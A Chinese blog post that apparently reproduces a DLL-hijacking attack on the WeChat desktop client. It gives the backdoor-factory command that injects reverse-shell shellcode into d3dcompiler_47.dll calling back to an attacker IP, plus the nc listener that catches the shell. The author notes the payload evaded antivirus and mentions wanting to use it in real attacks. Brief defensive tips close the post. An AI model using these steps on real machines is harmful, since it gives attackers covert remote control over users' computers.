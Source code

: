 ```yaml
---
layout: post
title: "利用微信进行 DLL 劫持 && 反弹shell"
subtitle: "利用微信进行 DLL 劫持 && 反弹shell"
date: 2019-06-17
author: ppbibo
category: APT攻击
finished: true
---
```

[TOC]

## 0x1 前言

​		PS：看到的一篇标题为《看我如何利用微信反弹shell》的文章觉得挺有意思的，就去复现了一波，可能是微信版本的问题，并没有加载他文章中微信下的 dbghelp.dll，而是劫持了d3dcompiler_47.dll 文件，从而反弹shell 。



用户机器：

​		Windos 7 企业版

​		IP 192.168.1.101

​		微信版本：2.6.8.51



攻击机：

​		MacBook Pro 本地

​		IP 192.168.1.100		



##### 需要的工具：

​		 [劫持工具(backdoor-factory)](https://github.com/secretsquirrel/the-backdoor-factory)

​		 [增强型任务管理器 (ProcessExplorer)](https://github.com/ppbibo/ppbibo.github.io/upload/ProcessExplorer.zip)

​		 [微信 2.6.8.51](https://github.com/ppbibo/ppbibo.github.io/upload/微信-2.6.8.51.zip)

​		![version](/static/img/version.png)

## 0x2 查看被调用的dll文件

安装好微信打开 ProcessExplorer 查看微信调用的所有文件，如下：

![dll_new](/static/img/dll_new.png)

![dll_dir](/static/img/dll_dir.png)



## 0x3 制作劫持的dll文件

利用 backdoor-factory 制作反弹shell 的 dll 文件，向原有的dll 中插入一段shellcode

执行命令：

```bash
python backdoor.py -f d3dcompiler_47.dll -s reverse_shell_tcp_inline -P 6666 -H 192.168.1.100
```

![backdoor](/static/img/backdoor.png)

生成的文件在当前目录的backdoored 下面

![backdoored](/static/img/backdoored.png)



将 backdoored 下面的 d3dcompiler_47.dll 替换掉 WeChat 下面原有的 d3dcompiler_47.dll 文件

![qqqq](/static/img/qqqq.png)



这样微信在启动的时候就可以调用我们插入shellcode 的dll了

## 0x4 利用

攻击机使用NC 监听 6666 端口

```bash
nc -lvv 6666    
```

Windows 7 运行微信

![fantanshell_ok](/static/img/fantanshell_ok.png)

可以看到 微信在运行时多了两个cmd 进程，成功反弹shell到攻击机。



## 0x5 总结

​		这种dll 攻击感觉还是蛮好玩的，因为我在windows 7 下是有火绒杀软的，也就是免杀，接下来就是想怎么将这种攻击运用到实际攻击场景中。



##### 防御方法：

软件要通过官方渠道下载安装

定时检查机器是否存在可疑的dll文件

查看机器是否开启了可疑地端口

![netstat](/static/img/netstat.png)



参考：https://mp.weixin.qq.com/s/6h2eYnbVnjmeGACUjgx1nw

参考：https://www.freebuf.com/articles/78807.html